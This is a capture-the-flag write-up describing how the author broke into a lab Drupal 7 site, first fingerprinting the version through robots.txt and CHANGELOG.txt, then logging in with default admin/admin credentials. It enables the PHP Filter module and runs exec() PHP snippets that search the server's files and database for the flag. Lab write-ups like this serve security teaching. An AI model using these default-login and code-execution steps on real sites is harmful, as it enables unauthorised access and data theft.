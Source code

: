 # Our new site! (exploit) (author: snn)

## Description

```shell
We already started thinking about 2024! Our test site is already up and running.

Please help us and contribute!

username: user password: woAheZiUWZPW9wEYKYG
```

## Task analysis & solution

A docker instance is provided by the CyberXmas infrastructure with an address and a port. That instance is being spun up for a limited amount of time, until it needs to be reverted again. Let's connect to it with SSH:

```shell
└ $ ssh user@10.10.8.61 -p 34155
kex_exchange_identification: Connection closed by remote host
└ $ ssh user@10.10.8.61 -p 34155 -v
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
debug1: Connecting to 10.10.8.61 [10.10.8.61] port 34155.
debug1: Connection established.
debug1: identity file C:\\Users\\snn/.ssh/id_rsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_rsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519 type 3
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_for_Windows_8.1
debug1: kex_exchange_identification: banner line 0: HTTP/1.1 400 Bad Request
debug1: kex_exchange_identification: banner line 1: Date: Tue, 26 Dec 2023 21:21:15 GMT
debug1: kex_exchange_identification: banner line 2: Server: Apache/2.4.10 (Debian)
debug1: kex_exchange_identification: banner line 3: Content-Length: 302
debug1: kex_exchange_identification: banner line 4: Connection: close
debug1: kex_exchange_identification: banner line 5: Content-Type: text/html; charset=iso-8859-1
debug1: kex_exchange_identification: banner line 6:
debug1: kex_exchange_identification: banner line 7: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
debug1: kex_exchange_identification: banner line 8: <html><head>
debug1: kex_exchange_identification: banner line 9: <title>400 Bad Request</title>
debug1: kex_exchange_identification: banner line 10: </head><body>
debug1: kex_exchange_identification: banner line 11: <h1>Bad Request</h1>
debug1: kex_exchange_identification: banner line 12: <p>Your browser sent a request that this server could not understand.<br />
debug1: kex_exchange_identification: banner line 13: </p>
debug1: kex_exchange_identification: banner line 14: <hr>
debug1: kex_exchange_identification: banner line 15: <address>Apache/2.4.10 (Debian) Server at 172.17.0.6 Port 80</address>
debug1: kex_exchange_identification: banner line 16: </body></html>
kex_exchange_identification: Connection closed by remote host
└ $
```
No useful results here, so I decided to abandon SSH for the time being.

Let's give it a try in a web browser:

![Alt text](1.png)

Good! As we can see we are in some page that was developed by 
`Drupal`

A quick search online provides the following information - `Drupal is a free and open-source web content management system written in PHP and distributed under the GNU General Public License. Wikipedia`

So we are in the CMS site and as the hint in the challenge sais - `Please help us and contribute!`

How about we try to find some more information about Drupal in home page's source...

```web
<meta name="Generator" content="Drupal 7 (http://drupal.org)">
```

From here we understand that we are dealing with Drupal 7.

Let's see whether we have a robots.txt file, for those pesky web crawlers at
http://10.10.8.61:34155/robots.txt (34155 was the port at the time)


```web
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
# Files
...
Disallow: /CHANGELOG.txt
...

```
We can see there's a diallowed CHANGELOG.txt file that we might be interested in:

```url
http://10.10.8.61:34155/CHANGELOG.txt
```

```web
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
```

In the changelog, we can see the exact Drupal version - 7.57, released on 2018-02-21

A quick online search yielded quite a bit of possible Drupal exploits. I did try many of those, namely the Drupalgeddon ones with metasploit, but without success..

![Alt text](2.png)


Anyway... most of the articles were about remote code execution with a php module. However in our case php is not even installed. 

I quickly realized that I need a way to install PHP on the site and that meant I needed admin access. So I did a quick search online for "Drupal 7 admin explot", which yielded these two results:

![Alt text](3.png)

Since I knew that SQL is of no interest, I put more effort in the second result: 
[Drupal 7x exploitation](https://medium.com/@yasmeena_rezk/drupal-7-x-exploitation-7eb1c7cfa4dc)

I got really excited about this line here, which gave me some ideas:

```python
# python2.7  drupalgeddon.py -t <url> -u <username>-p <password>
python2.7  drupalgeddon.py -t http://drupal-qa.ex.com -u admin -p admin
```

Regardless of the fact that the article was about Drupal 7.30, I 
immediately decided to give it a try with admin/admin for access -> 

:voila:

![Alt text](4.png)

Silly me, I should've tried these first! Anyway, now for fun part:
1. Go to Modules
2. Enable PHP Filter
3. Save Configuration:

![Alt text](5.png)

Now go and add an article:

![Alt text](6.png)

When you click on preview button we can see that our command has executed some php code:
![Alt text](7.png)

It looks like we are in the /var/www/html folder, so why not search for a file containing the flag, which should start with ***MilestoneCTF***? I decided to start the search from /var/www

```code
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;
exec('grep -Rnw "/var/www" -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

We have found a file **/var/www/html/sites/default/files/.ht.sqlite** that contains ***MilestoneCTF***:

![Alt text](8.png)

Let's put grep to work here:

```php
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;

exec('strings /var/www/html/sites/default/files/.ht.sqlite | grep -m 1 -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

![Alt text](9.png)


> The flag was inside the sqlite database in plain text: ***MilestoneCTF{this-is-a-really-nice-flag}***
